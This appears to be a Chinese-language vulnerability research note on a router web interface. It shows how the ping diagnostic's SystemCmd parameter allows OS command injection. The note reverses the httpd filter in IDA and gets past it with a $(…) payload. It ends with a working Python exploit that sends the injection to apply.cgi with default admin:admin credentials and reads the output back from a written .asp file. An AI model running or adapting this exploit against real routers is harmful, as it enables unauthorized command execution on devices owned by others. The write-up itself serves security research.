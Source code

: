 ## 猜测分析
在测试web端按钮时，疑似发现ping下面的框可以命令执行
![[Pasted image 20240723192526.png]]
## 具体分析
在点击页面发现可以开启telnet服务，为后续验证命令执行提供便利
![[Pasted image 20240723192815.png]]
telnet开启成功
![[Pasted image 20240723193013.png]]
先直接拼接命令看看是不是能执行成功

![[Pasted image 20240724111256.png]]
这里发现并没有成功返回了404界面，所以思考是不是有什么过滤，看一下页面是哪里来的先
![[Pasted image 20240723200013.png]]
在httpd这个二进制文件中
这里先抓个包，看看传了什么参数
![[Pasted image 20240723195657.png]]
destIP是我们输入的IP，但是去IDA里面搜索这个关键字找不到存在的地方
于是再看到SystemCmd这个参数，里面也有我们输入的IP，于是去查了一下SystemCmd这个关键字
![[Pasted image 20240723200538.png]]
发现第三个交叉引用到
![[Pasted image 20240723200614.png]]
想看一下伪代码报错了
![[Pasted image 20240723200741.png]]
复制41FFFC这个地址，G输入进去跳转到这个地址，把这个地址D转换为数据
![[Pasted image 20240723200954.png]]
这样子就可以看到伪代码了，伪代码发现过滤了6种字符，也确定了是通过systemcmd这个来传参的
![[Pasted image 20240723201811.png]]
![[1f19df9bcffb60035adbc9d25581df8.png]]
那么找到了过滤的字符，尝试绕过，在web端尝试输出192.168.1.1$(ps>jiawen.asp)
![[Pasted image 20240724110801.png]]
![[Pasted image 20240724110916.png]]
执行成功


我们假设没有telnet该怎么看回显查看是否执行成功了呢
我们可以给命令执行的时候$(ps>jiawen.asp)用http://localhost/jiawen.asp直接请求这个页面查看是否执行成功
至于为什么是.asp呢，这里之前命令注入的时候创建的是.txt的文件，去直接请求.txt发现返回的是404的界面，所以根据猜测应该是有什么规则，去搜索有没有什么规则文件也并没有找到，于是猜测也是集成写在了httpd二进制文件中，于是在IDA里面搜索**.asp* 就发现了
httpd这个二进制文件中存在一些规则，使它只能在web端访问这些规则的界面
![[Pasted image 20240723211556.png]]
![[Pasted image 20240723211627.png]]

## EXP
```
import requests

cmd = "ps+>+jiawen.asp"
syscmd = "ping+-c+5+$("+cmd+")"

burp0_url = "http://192.168.1.1:80/apply.cgi?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd="+syscmd+"&firmver=3.0.0.4&cmdMethod=ping&destIP="+cmd+"&pingCNT=5"
burp0_headers = {
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Referer": "http://192.168.1.1/Main_Analysis_Content.asp"
}
requests.get(burp0_url, headers=burp0_headers)

burp1_url = "http://192.168.1.1:80/Main_Analysis_Content.asp"
burp1_headers = {
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Referer": "http://192.168.1.1/apply.cgi?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd="+syscmd+"&firmver=3.0.0.4&cmdMethod=ping&destIP="+cmd+"&pingCNT=5"
}
requests.get(burp1_url, headers=burp1_headers)

burp2_url = "http://192.168.1.1:80/jiawen.asp"
burp2_headers = {
    "Authorization": "Basic YWRtaW46YWRtaW4="
}
response = requests.get(burp2_url, headers=burp2_headers)

print(response.text)
```
